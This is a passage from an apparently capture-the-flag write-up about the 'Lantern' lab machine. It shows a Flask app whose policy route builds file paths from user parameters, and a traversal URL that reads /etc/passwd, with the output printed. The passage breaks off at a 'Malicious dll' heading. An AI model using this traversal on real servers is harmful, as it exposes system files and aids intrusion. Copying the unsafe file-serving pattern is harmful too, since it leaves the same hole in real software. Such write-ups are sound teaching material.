 ```python
    name = request.form.get('name')
    email = request.form.get('email')
    vacancy = request.form.get('vacancy', default='Middle Frontend Developer')

    if 'resume' in request.files:
        try:
            file = request.files['resume']
            resume_name = file.filename
            if resume_name.endswith('.pdf') or resume_name == '':
                filename = secure_filename(f"resume-{name}-{vacancy}-latern.pdf")
                upload_folder = os.path.join(os.getcwd(), 'uploads')
                destination = '/'.join([upload_folder, filename])
                file.save(destination)
            else:
                return "Only PDF files allowed!"
        except:
            return "Something went wrong!"
    return "Thank you! We will conact you very soon!"

@app.route('/PrivacyAndPolicy')
def sendPolicyAgreement():
    lang = request.args.get('lang')
    file_ext = request.args.get('ext')
    try:
            return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') 
    except: 
            return send_file(f'/var/www/sites/localisation/default/policy.pdf', 'application/pdf')

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8000)
```

The code directly places our inputs when looking for a file, supplied to the webapp through the parameters lang and ext. We can define lang and ext in a way to include that period between them in directory traversal. `http://lantern.htb/PrivacyAndPolicy?lang=../../../&ext=./etc/passwd` 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
tomas:x:1000:1000:tomas:/home/tomas:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Here we can find the user name of tomas. Other than that this LFI is largely not useful for the upcoming exploit. 

### Malicious dll
